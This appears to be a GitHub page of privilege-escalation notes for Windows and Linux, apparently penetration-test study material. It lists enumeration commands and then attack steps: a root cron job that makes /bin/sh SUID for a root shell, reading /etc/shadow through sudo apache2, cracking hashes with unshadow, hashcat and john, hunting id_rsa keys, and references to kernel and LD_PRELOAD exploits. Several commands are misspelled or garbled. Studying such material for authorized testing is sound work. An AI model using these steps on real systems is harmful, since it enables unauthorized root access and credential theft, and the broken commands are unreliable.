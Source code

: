 # Privilege-Escalation
###Manual Enumeration
1. processes-services :

```bash
#Windows 
tasklist /svc

#Linux
ps aux
```

1. About-version :

```bash
#Windows 
systeminfo | findstr /c:”os name” /c:”os  version” /c:”systemtype”

#Linux
uname -a || cat /etc/issue
```

1. Enum-Host_Name :

```bash
#Windows & Linux
 
hostname
```

1. Enum-Users :

```bash
#Windows
whoami || net user || net user <username> 

#Linux
whoami ||id|| cat /etc/passwd 
```

### Network Enum

| Type | Windows | Linux |
| --- | --- | --- |
| open-ports | ipconfig /all || route print||netstat -ano | ip a || ifconfig ss -anp || cat /sbin/route || netstat -anp |

### Firewall Enum

| Type | Linux | Windows |
| --- | --- | --- |
|  | iptables ⇒However, depending on how the firewall is configured, we may be able to glean information about the rules as a standard user || /etc/iptables | netsh advfirewall show currentprofile netsh advfirewall firewall show rule name=all  |
### Enumerating scheduled tasks

Scheduled task :



---

```bash
1. nano test.sh
2. chmod u+s /bin/sh
3. chmod +x test.sh
4. nano /etc/crontab
- * * * * * root /home/luka/test.sh
1. $ /bin/sh -p
2. $ whoami
```

---

in windows

```bash
schtasks /query /fo LIST /v     
```

---

### Enum installed applications and patch levels

for Windows :

```bash
- wmic product get name, version, vendor
- wmic qfe get capion, discription, hosfixid, nstalledon
```

for Linux

```bash
dpkg -l
```

---

### Enum readable/writable files and directories

- for windows
- exec tool like ⇒ accesschk

```bash
c:\Tools\privilege_escalation\SysinternalsSuite>accesschk.exe -uws "Everyone" "C:\Prog ram Files”
```

- powershell script :

```powershell
>Get-ChildItem "C:\Program Files" -R ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

- for linux

```bash
find / -writable -type d 2>/dev/null
```

---

### unmounted disks



- Windows

```powershell
mountvol
```

- Linux

```bash
mount
```

---

### Device Drivers and kernal modules



- Windows

```powershell
drivequery.exe /v /fe csv | convertfrom-csv | select-object ‘display name’, ‘start mode’, path 
```

- Linux

```bash
1. lsmod
2. modinfo <modulename>
```

====================================

## Automation

===============

Runas escalation via ⇒ CVE-2019-1388

===============

# Linux privesc

exploits:

1. kernel exploits: ⇒ vuls in version ... EX.( dirty c0w)
2. stored passwords (config files)
3. stored passwords (History) .. /.bash_history
4. weak permission ⇒ /etc/shadow —> unshadow passwd shadow > output.txt —→ crack

$hashcat -m 1800 output.txt rockyou.txt -O

1. ssh keys —→ find / -name id_rsa 2> /dev/null
2. shell escaping ⇒sudo -l 
3. sudo abusing intended functionality

⇒sudo apache2 -f /etc/shadow ⇒root hash ⇒ echo ‘[ root hash ]’ > x.txt

john —wordlist=/user/share/wordlist/nmap.lst x.txt

1. sudo (LD_PRELOAD)
